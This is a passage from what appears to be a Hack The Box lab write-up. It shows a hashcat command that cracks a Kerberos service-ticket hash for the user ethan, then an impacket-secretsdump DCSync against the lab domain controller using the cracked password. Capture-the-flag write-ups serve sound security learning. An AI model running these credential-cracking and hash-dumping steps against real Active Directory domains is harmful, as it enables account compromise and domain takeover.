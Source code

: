 Loaded hashcat:

```
hashcat -m 13100 ethan.hash /home/czr/HTB/rockyou.txt --force
```

CrackeD!

<figure><img src="../.gitbook/assets/image (56).png" alt=""><figcaption></figcaption></figure>

Let's do DCSync!

```
impacket-secretsdump 'administrator.htb/ethan:limpbizkit@10.10.11.42'
```

<figure><img src="../.gitbook/assets/image (57).png" alt=""><figcaption></figcaption></figure>
